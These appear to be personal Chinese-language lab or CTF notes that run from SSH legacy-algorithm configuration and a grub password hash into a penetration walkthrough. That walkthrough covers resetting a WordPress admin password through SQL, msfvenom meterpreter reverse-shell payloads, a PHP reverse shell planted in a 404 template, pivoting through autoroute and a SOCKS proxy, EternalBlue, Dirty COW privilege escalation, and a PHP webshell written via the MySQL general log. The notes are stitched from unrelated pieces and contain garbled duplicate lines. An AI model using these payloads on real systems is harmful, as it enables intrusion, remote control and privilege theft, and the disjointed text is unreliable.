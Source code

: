 ip addr 192.168.1.155/24 dev eth1
ifconfig eth1 up

16.04 中包含的 OpenSSH 版本禁用 ssh-dss。有一个包含此问题的遗留信息的简洁页面：[http://www.openssh.com/legacy.html](http://www.openssh.com/legacy.html)

添加网卡：[blog.51cto.com/506554897/1742070](https://blog.51cto.com/506554897/1742070)
service network restart

简而言之，您应该将选项添加`-oHostKeyAlgorithms=+ssh-dss`到 SSH 命令中：

```
ssh -oHostKeyAlgorithms=+ssh-dss root@192.168.8.109
```

---

您还可以在您的文件中添加主机模式，`~/.ssh/config`这样您就不必每次都指定密钥算法：

```
Host nas
  HostName 192.168.8.109
  HostKeyAlgorithms=+ssh-dss
```

这样做的另一个好处是您无需键入 IP 地址。相反，`ssh`将识别主机`nas`并知道连接到哪里。当然，您可以使用任何其他名称代替。

解决办法是`ssh`命令指定算法:

```
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa  user@host -p 2222
```

上面比较麻烦, 可以修改ssh配置文件 _~/.ssh/config_, 对于无法成功连接的host, 增加配置项:

~/.ssh/config

```
HostKeyAlgorithms +ssh-rsaPubkeyAcceptedKeyTypes +ssh-rsa
```

完整配置如下:

~/.ssh/config

```
Host ssh.alanwei.com  HostName ssh.alanwei.com  User alan  Port 22  HostKeyAlgorithms +ssh-rsa  PubkeyAcceptedKeyTypes +ssh-rsa
```

编辑grub配置文件#vi /etc/grub.conf
grub-crypt --md5

使用命令设置md5加密密码，复制生成的md5码

[root@localhost~]# grub-crypt --md5

Password:

Retype password:

$1$Vk/Pvw4.$i8b0feQIqez/CRInfnhcq0

```C
phpMyAdmin-4.0.0-all-languages.zip
wordpress-5.0.3-zh_CN.zip
```

# 做题
在wordpress数据库中找到wp_users表
查询： select * from 'wp_users'

update wp_users set user_pass=md5("52ctfhahaha") where user_login='eveng';

利用MSF生成反弹shell :  没有用
msfvenom -p php/meterpreter/reverse_tcp LHOST=Kali的IPLPORT=4444 -o Desktop/shell.php

利用Kali Linux自带反弹shell

root@kali:~# cat /usr/share/webshells/php/php-reverse-shell.php
复制此shell代码到404模板，修改IP为Kali地址，端口为4444

![[Pasted image 20240402153412.png]]

使用netcat，监听4444端口:nc -nlvp 4444



浏览器访问不存在的页面，触发404文件执行，例如http://靶机ip/?p=666

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f elf > shell_8000.elf
反弹shell
攻击机运行msfconsole，使用exploit/multi/handler模块，set payload linux/x86/meterpreter/reverse_tcp跟生成木马时用的payload一样。LPORT设置成木马将要连接的端口，运行后会在攻击机上监听一个端口，等待木马链接。

```C
在meterpreter会话内配置
run get_local_subnets
run autoroute -p
run autoroute -s 192.168.194.0/24

在msf内配置
route print
route add 192.168.194.0 255.255.255.0 1
```


下载到Kali桌面并进入目录，使用gcc编译gcc -pthread dirty.c-o dirty -lcrypt
下载到kali桌面并进入目录，使用GCC编译GCC-线程dity.c-o脏-lcrypt

设置为执行权限

chmod +x dirty

使用python开启http服务器

Python-m SimpleHTTPServer 80

执行dirty完成提权，
获得登录信息. ./dirty new password (任意密码)

```C
方法2(权限不够没法弄)
[blog.51cto.com/sunjikui/5994467](https://blog.51cto.com/sunjikui/5994467)
show variables like "%general_log%";
set global general_log='on';
set global general_log_file="//var//www//html//shell.php";
select "<?php system($_REQUEST[cmd]);?>"

```


auxiliary/server/socks_proxy

vim /etc/proxychains4.conf
proxychains nmap --script=vuln -sT -Pn 192.168.194.133

use windows/smb/ms17_010_eternalblue
setg Proxies socks5:192.168.44.128:1080
set ReverseAllowProxy true

psexec这个模块默认是反向连接的，我们使用了代理，要使用正向连接set payload windows/meterpreter/bind_tcp
set rhost 192.168.194.133设置目标

